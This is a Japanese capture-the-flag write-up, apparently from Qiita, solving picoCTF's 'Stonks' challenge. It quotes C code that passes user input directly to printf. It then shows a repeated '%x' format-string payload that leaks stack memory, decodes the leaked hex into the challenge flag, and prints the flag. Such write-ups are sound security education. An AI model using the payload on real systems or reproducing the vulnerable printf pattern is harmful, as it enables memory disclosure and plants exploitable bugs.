 # Stonks:Binary Exploitation

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c]() `nc mercury.picoctf.net 33411`

添付ファイル
・vuln.c

とりあえずプロンプトに`nc mercury.picoctf.net 33411`をなげてみる。
```
$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
1
Buying stonks with token:
1
Portfolio as of Fri Apr 26 02:07:58 UTC 2024


1 shares of VP
2 shares of YCWC
14 shares of VJMP
5 shares of NZIO
44 shares of SFO
87 shares of YR
154 shares of ZRZ
796 shares of CIJD
5 shares of EXT
Goodbye!
```
株を買うor状態を見ることができるらしい。添付のプログラムを見てみると、
flagはapi_bufに格納されているっぽい。それから以下の部分で何かしらできそう。
```
	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API
 ```
 user_bufを表示してくれるみたいなので、とりあえずAPI tokenを聞かれるところで`%x`を入力してみる。と、なんか出てきた。
 ```
 Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e4d3f0
Portfolio as of Fri Apr 26 02:13:52 UTC 2024


1 shares of SSY
10 shares of QTK
2 shares of VMZ
90 shares of V
360 shares of H
141 shares of JM
38 shares of THL
1180 shares of WCF
Goodbye!
```
`%x`をたくさん並べてみればflagが見られるかも。
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
95843b0804b00080489c3f7f17d80ffffffff19582160f7f25110f7f17dc7095831801958439095843b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe5007df7f52af8f7f254401ec2430010f7db4ce9
Portfolio as of Fri Apr 26 01:54:28 UTC 2024


1 shares of LV
1 shares of WD
27 shares of E
188 shares of OXJ
70 shares of AC
1189 shares of QYXJ
Goodbye
```
出てきた怪しげな謎文字列をhex→UTF-8にすると、
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3638553/8abfcb9d-b59c-2ce5-f71e-ab0891e34696.png)
4文字ずつ逆になっているflag(リトルエンディアンで記述されている)が出てきたので、並べ替える。

`picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`

ちなみに、Format String Attack(書式文字列攻撃)という、printf()などの関数の引数の特性を利用した攻撃方法らしい。

